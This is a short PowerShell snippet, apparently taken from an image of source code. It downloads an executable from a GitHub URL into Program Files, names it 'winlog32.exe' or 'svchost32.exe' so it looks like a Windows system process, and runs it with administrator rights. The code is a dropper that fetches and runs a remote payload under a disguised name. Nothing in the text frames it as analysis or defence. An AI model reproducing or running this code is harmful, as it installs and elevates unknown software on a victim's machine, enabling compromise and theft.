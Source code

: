 $settings = '{"WD": false, "adminrun": false}'; if ($settings.adminrun) { $outputPath = Join-Path $env:programfiles 'winlog32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/nasr/blob/main/yaz.exe", $outputPath); Start-Process $outputPath -Verb RunAs } else { $outputPath = Join-Path $env:programfiles 'svchost32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/nasr/blob/main/yaz.exe", $outputPath); Start-Process $outputPath -Verb RunAs };
